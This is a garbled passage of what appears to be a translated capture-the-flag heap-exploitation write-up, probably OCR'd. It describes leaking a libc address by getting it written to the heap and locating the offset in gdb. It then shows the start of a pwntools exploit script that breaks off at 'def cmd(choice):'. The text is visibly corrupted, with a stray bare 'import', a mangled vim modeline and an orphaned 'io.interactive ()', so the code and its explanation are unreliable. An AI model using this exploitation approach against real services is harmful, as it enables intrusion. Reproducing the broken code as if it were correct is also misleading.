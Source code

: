 ```python


io.interactive ()
```



#### Simple plan


After any read and write, another way to find libc is to first cause the libc address to be written on the heap before any read and write, and then read it out by any read.


In order to find the offset where libc is located, you can debug directly through gdb to view the location of the specific libc address on the heap, without deliberate calculation.


Exp is as follows:


```

#! /usr/bin/env python2

# -*- coding: utf-8 -*-

# vim: hay = utf-8


import sys

import
import os.path

from pwn import *

context(os='linux', arch='amd64', log_level='debug')



if len(sys.argv) > 2:

    DEBUG = 0

    HOST = sys.argv[1]

    PORT = int(sys.argv[2])



    p = remote(HOST, PORT)

else:

    DEBUG = 1

    if len(sys.argv) == 2:

        PATH = sys.argv[1]



    p = process(PATH)



def cmd(choice):
```